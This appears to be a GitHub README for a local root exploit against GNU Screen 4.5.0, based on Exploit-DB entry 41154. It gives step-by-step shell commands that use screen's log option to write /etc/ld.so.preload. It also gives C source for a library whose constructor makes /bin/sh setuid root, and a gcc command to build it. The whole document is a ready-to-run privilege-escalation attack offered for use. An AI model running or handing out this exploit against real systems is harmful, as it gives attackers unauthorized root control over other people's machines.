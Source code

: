 # Priv Esc for Screen 4.5.0
Based on https://www.exploit-db.com/exploits/41154
Based on Screen2Root

Exploit Instructions:
```
cd /tmp
wget http://127.0.0.1/libhax.so    # Make sure libhax.so is in /tmp
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen ls
/bin/sh -p
```
libhax.c code (Compiled version available in repo)
```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/bin/sh", 0, 0);
    chmod("/bin/sh", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
Compile libhax.c with gcc
```
gcc -fPIC -shared -ldl -o libhax.so libhax.c
```
